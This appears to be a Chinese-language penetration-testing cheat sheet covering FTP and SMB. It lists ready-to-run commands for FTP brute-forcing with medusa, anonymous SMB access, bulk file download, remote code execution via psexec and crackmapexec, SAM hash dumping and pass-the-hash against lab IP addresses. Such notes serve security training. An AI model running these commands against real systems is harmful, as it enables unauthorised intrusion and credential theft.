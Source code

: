 >[!章節重點]
>包含FTP、SMB、RDP等等服務
# FTP
>[!warning ] 小節重點
>可能可以找到帳密等檔案，並且可能可以使用匿名登入
## 登入FTP
```shell
 ftp 192.168.2.142 
```
## 暴力破解FTP
```shell
medusa -u fiona -P /usr/share/wordlists/rockyou.txt -h 10.129.203.7 -M ftp 
```
# SMB 
>[!warning ] 小節重點
>- TCP/139 、TCP/445
>- UDP/137、UDP/138 
##  登入SMB
### 匿名登入
```shell
 smbclient -N -L //10.129.14.128
```
## 登入後利用
### 列舉
```
smb: \> recurse ON
smb: \> prompt OFF
smb: \> mget *
```
### RCE 
- Impacket-psexec 
```shell
impacket-psexec administrator:'Password123!'@10.10.110.17
```
- crackmapexec
```shell
crackmapexec smb 10.10.110.17 -u Administrator -p 'Password123!' -x 'whoami' --exec-method smbexec
```
### 列出登入用戶
```shell
crackmapexec smb 10.10.110.0/24 -u administrator -p 'Password123!' --loggedon-users
```
### 抓取hash
```shell
crackmapexec smb 10.10.110.17 -u administrator -p 'Password123!' --sam
```
### PassTheHash
```shell
 crackmapexec smb 10.10.110.17 -u Administrator -H 2B576ACBE6BCFDA7294D6BD18041B8FE
```
###  列舉工具
- smbmap 
```shell
smbmap -H 10.129.14.128
```